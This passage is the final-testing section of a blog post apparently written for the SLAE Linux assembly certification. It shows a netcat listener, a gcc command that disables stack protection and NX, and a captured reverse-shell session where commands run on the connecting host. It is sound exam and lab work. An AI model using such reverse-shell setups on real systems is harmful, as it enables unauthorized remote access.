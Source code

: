 ## Final Testing

I set up a netcat listener on my Kali machine at 192.168.1.188 and then compiled the shellcode.c program with `gcc -fno-stack-protector -z execstack -m32 shellcode.c -o rev_shell` and ran `./rev_shell`

```terminal_session
SLAE@ubuntu:~/SLAE/Exam$ ./rev_shell
Shellcode Length:  99
```

```terminal_session
root@kali:~/petprojects# nc -lvp 1234
listening on [any] 1234 ...
192.168.1.192: inverse host lookup failed: Unknown host
connect to [192.168.1.188] from (UNKNOWN) [192.168.1.192] 57324
id
uid=1000(SLAE) gid=1000(SLAE) groups=1000(SLAE),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
pwd
/home/SLAE/SLAE/Exam
```

It works!!

## Github Repo 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1458

You can find all of the code used in this blog post [here.](https://github.com/h0mbre/SLAE/tree/master/Assignment2)

